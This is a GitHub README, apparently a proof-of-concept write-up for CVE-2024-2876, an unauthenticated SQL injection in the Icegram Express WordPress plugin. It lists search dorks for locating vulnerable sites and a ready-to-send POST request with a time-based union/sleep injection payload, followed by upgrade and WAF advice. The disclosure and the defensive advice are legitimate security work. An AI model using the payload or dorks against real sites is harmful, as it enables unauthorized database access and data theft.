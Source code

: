 # SQL-Injection-in-WordPress-Plugin
CVE-2024-2876
#Description Of Vulnerability: The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection via the ‘run’ function of the ‘IG_ES_Subscribers_Query’ class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

#Dork: 1- FOFA : body="/wp-content/plugins/email-subscribers/" 2- publicwww : "/wp-content/plugins/email-subscribers/"

#POC: POST /wp-admin/admin-post.php HTTP/1.1 Host: {{Hostname}} Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111

#How to fix ? Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19). Patchstack users have the option to enable automatic updates specifically for vulnerable plugins. Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

#Resource: https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/


Jarvis logo
Ctrl+ J

CVE-2024-2876/README.md at main · Quantum-Hacker/CVE-2024-2876

